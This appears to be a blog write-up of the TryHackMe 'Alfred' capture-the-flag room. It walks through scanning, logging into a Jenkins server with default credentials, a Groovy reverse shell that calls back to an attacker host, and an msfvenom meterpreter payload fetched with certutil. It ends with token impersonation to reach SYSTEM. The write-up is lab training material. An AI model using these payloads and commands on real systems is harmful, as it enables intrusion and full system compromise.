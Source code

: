```yaml
---
title: "Alfred"
datePublished: Sun Aug 06 2023 06:10:18 GMT+0000 (Coordinated Universal Time)
cuid: clkz1o7n0000c0aky82kx74kw
slug: alfred
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1691301792954/0e64bdd6-fed0-46a4-9f1b-0569dcdb9de3.png
tags: ctf, penetration-testing, ethical-hacking, tryhackme, ctf-writeup

---
```


This walkthrough will go over the [Alfred](https://tryhackme.com/room/alfred) room found on [TryHackMe](https://tryhackme.com). The objective behind this room is to exploit a misconfigured Jenkins server, obtain a reverse shell, and escalate privileges by leveraging a `SeImpersonatePrivilege` capability on a low-level user to obtain `NT AUTHORITY\SYSTEM` level privileges.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301818828/a91e91f2-b0ac-457a-9228-8f0a8cb964d0.png align="center")

### Step 1: Nmap

```bash
nmap -sC -sV -O -p- -Pn alfred.thm --min-rate=1000
```

```plaintext
┌──(root㉿kali)-[~]
└─# nmap -sC -sV -O -p- -Pn alfred.thm --min-rate=1000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-22 17:33 MDT
Nmap scan report for alfred.thm (10.10.70.88)
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  tcpwrapped
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|7|8.1 (87%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_8.1:r1
Aggressive OS guesses: Microsoft Windows Server 2008 R2 or Windows 8 (87%), Microsoft Windows Server 2008 R2 SP1 (87%), Microsoft Windows Server 2008 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows 7 SP1 (85%), Microsoft Windows 8.1 R1 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 148.82 seconds
```

From this scan, we identified three open ports: 80, 3389, and 8080.

Port 80:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301860116/5d6ce597-3d72-4198-9f5e-77c5e2d5c3e4.png align="center")

Port 8080:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301877545/ab705601-fa4e-412d-a000-b6373ce2c088.png align="center")

### Step 2: Logging In

Trying some default login credentials, we discover that `admin:admin` works.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301895746/23b418b2-8179-4d4f-8d80-a5c67410a555.png align="center")

### Step 3: Initial Foothold

Peeking around the system, we find an area where we can use `groovy` scripts. This will be our way into the box.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301912905/2623a425-11de-4301-a1f0-e7e5b203dddd.png align="center")

We're using a groovy shell which can be found on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy).

```php
String host="10.0.0.1";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Running this script inside the built-in `Script Console` calls our attack box and drops us into a shell.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301962193/86c8e757-befb-433a-aa36-d828d60ca937.png align="center")

From here we find our `user.txt` flag located in `C:\Users\bruce\Desktop\` .

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301971137/3296a91b-9046-4d90-b0f7-9433675ce6af.jpeg align="center")

### Step 4: Upgrade to Meterpreter Shell

First, we want to generate our payload using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.28.215 LPORT=1335 --format exe -o payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302000265/483a5146-9d7a-4d33-9db7-05cb9c09007f.webp align="center")

From the victim, we're going to use `certutil` to download it.

```bash
certutil.exe -urlcache -f http://10.13.28.215:8000/payload.exe payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302014664/102fb327-07be-4624-bbc0-74e1356897d5.webp align="center")

Now we fire up `msfconsole` and set up our handler to catch the shell.

1. `use exploit/multi/handler`
    
2. `set payload windows/meterpreter/reverse_tcp`
    
3. `set LHOST <ATTACKER_IP>`
    
4. `set LPORT 1335`
    
5. `exploit`
    

Once the `payload.exe` is run on the victim machine, our handler will catch the shell and drop us in.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302062807/2da5c976-0a1c-4fba-8435-640bc686b8b7.webp align="center")

### Step 5: Privesc

Let's see what privileges we have currently by typing `whoami /priv`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302097741/26946bf1-f36b-4081-8b45-95fd0b1716ec.webp align="center")

Nice. We have `SeImpersonatePrivilege`, let's exploit this vulnerability. We can achieve this by using the `incognito module` built into metasploit.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302105355/5dcbd0e2-abf7-4162-830b-97854bada4d0.webp align="center")

Next, we want to impersonate the Administrator's token. We can do this by typing the following command: `impersonate_token "BUILTIN\Administrators"`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302112792/09d85050-8f39-417b-a03b-ac2e11017caf.png align="center")

Now let's migrate to a process with correct permissions. The safest bet is to always migrate to the `services.exe` service.

1. View processes: `ps`
    
2. Find the PID of `services.exe`
    
3. `migrate <PID>`
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302134644/1c59dc1b-ca2f-4246-a8ef-847b6fc8eb70.webp align="center")

Now that we're successfully `NT AUTHORITY\SYSTEM`, let's find our root flag and complete this room.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302142088/b9e2bb98-1942-4e38-8663-e0c86e10076a.jpeg align="center")

This room was a great introduction to AD pentesting. After going through this, I realized I have a long way ahead of me until I feel comfortable enough to sit down for the PNPT certification by TCM Security. I hope you enjoyed this walkthrough of the [Alfred](https://tryhackme.com/room/alfred) room found on [TryHackMe](https://tryhackme.com), and as always, Happy Hacking.